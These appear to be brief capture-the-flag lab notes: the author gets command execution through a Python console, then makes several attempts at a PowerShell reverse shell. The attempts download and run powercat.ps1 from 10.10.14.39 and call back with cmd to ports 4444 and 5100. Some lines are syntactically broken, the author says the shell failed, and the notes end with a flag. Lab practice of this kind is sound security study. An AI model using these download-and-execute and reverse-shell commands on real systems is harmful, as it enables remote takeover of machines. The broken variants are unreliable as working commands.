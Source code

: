 .`sRVJAz837u`
![[Pasted image 20240531130612.png]]
took a very long time to login.
![[Pasted image 20240531131505.png]]
click new and check command execution
```bash
import os
print(os.popen("whoami").read())
```
![[Pasted image 20240531133858.png]]

```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8000/powercat.ps1');powercat -c 10.10.14.39 -p 4444 -e cmd"

print(os.popen("powershell iex(iwr http://10.10.14.39:8000/powercat.ps1');powercat -c 10.10.14.39 -p 5100 -e cmd)").read())

#testing worked
print(os.popen("powershell iex(iwr http://10.10.14.39:8000/powercat.ps1 -useb)").read())

#testing 2
print(os.popen("powershell iex(iwr http://10.10.14.39:8000/powercat.ps1 -useb);powercat -c 10.10.14.39 -p 5100 -e cmd)").read())

testing still

import os
print(os.popen("powercat -c 10.10.14.39 -p 5100 -e cmd)").read())
```

# was unable to get shell
here is the flag.

GENESIS{p@ssw0rds_1n_br0ws3rs}


![[Pasted image 20240531140352.png]]
